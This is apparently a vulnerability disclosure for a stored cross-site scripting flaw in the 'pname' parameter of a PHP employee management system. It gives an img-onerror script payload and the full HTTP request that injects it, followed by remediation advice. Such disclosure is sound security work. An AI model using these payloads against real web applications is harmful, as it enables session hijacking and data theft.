 # SOURCECODESTER EMPLOYEE MANAGEMENT SYSTEM - XSS Vulnerability in Project Assignment Report

### Title: XSS Vulnerability in Project Assignment
### Affected Component: /process/assignp.php
### CWE: TBD (Cross-Site Scripting)
### CVSS Base Score:  6.8 (Self-rated with the assistance of an online CVSS calculator)

### Impact:
The web application is vulnerable to cross-site scripting (XSS) attacks within the project assignment functionality. Attackers can exploit this vulnerability by injecting malicious JavaScript code into the "pname" parameter, which is used to assign project names. When unsuspecting users view the assigned project names, the injected script executes within their browsers, potentially leading to various malicious activities such as session hijacking or data theft.

### Proof of Concept (POC):
To exploit the XSS vulnerability, attackers craft a payload containing malicious JavaScript code and inject it into the "pname" parameter while assigning a project. For example, submitting the payload `<img src=x onerror=alert(1)>` as the project name triggers an alert box when viewed by other users. This demonstrates the successful execution of arbitrary scripts within the application.

#### HTTP Request:
```http
POST /process/assignp.php HTTP/1.1
Host: localhost:8080
Content-Length: 366
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
Origin: http://localhost:8080
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGBjZDfsq5Q6tNSaB
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua-platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: empty
Referer: http://localhost:8080///assign.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryGBjZDfsq5Q6tNSaB
Content-Disposition: form-data; name="eid"

648309
------WebKitFormBoundaryGBjZDfsq5Q6tNSaB
Content-Disposition: form-data; name="pname"

<img src=x onerror=alert(1)>
------WebKitFormBoundaryGBjZDfsq5Q6tNSaB
Content-Disposition: form-data; name="duedate"

2024-02-09
------WebKitFormBoundaryGBjZDfsq5Q6tNSaB--
```

### Proof with Screenshot:
![XSS Vulnerability Proof](https://github.com/skid-nochizplz/skid-nochizplz/blob/main/TrashBin/CVE/SOURCECODESTER%20EMPLOYEE%20MANAGEMENT%20SYSTEM/XSS%20Vulnerability%20in%20Project%20Assignment%20Report.png?raw=true)

### Remediation:
To mitigate the XSS vulnerability, the application should implement proper input validation and output encoding techniques to sanitize user-supplied data before rendering it in the application's responses. Specifically, the "pname" parameter should be sanitized to ensure that it does not contain any executable code. Additionally, implementing content security policies (CSP) and regularly auditing the application's codebase for security vulnerabilities can further enhance its resilience against XSS attacks.
